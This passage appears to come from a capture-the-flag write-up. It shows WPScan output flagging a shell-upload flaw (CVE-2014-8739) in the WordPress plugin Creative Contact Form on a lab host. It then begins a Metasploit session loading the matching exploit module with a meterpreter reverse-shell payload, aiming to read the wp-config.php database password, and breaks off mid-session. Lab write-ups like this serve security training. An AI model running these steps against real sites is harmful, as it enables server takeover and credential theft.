  |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Creative Contact Form <= 0.9.7 Shell Upload
 |     Fixed in: 1.0.0
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/7652
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-8739
 |      - https://www.exploit-db.com/exploits/35057/
 |      - https://packetstormsecurity.com/files/131513/
 |      - https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_creativecontactform_file_upload
 |
 | Version: 0.9.7 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://www.nkcna.ctf/wp-content/plugins/sexy-contact-form/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://www.nkcna.ctf/wp-content/plugins/sexy-contact-form/readme.txt

</pre>


https://wpvulndb.com/vulnerabilities/7652 from above output
`exploit/unix/webapp/wp_creativecontactform_file_upload`

===Watering Hole 8===

Now that we have access, what is WordPress database password in wp-config.php?

<pre>
% msfconsole
msf5 > use exploit/unix/webapp/wp_creativecontactform_file_upload
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf5 exploit(unix/webapp/wp_creativecontactform_file_upload) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Creative Contact Form 0.9.7

msf5 exploit(unix/webapp/wp_creativecontactform_file_upload) > show targets

Exploit targets:

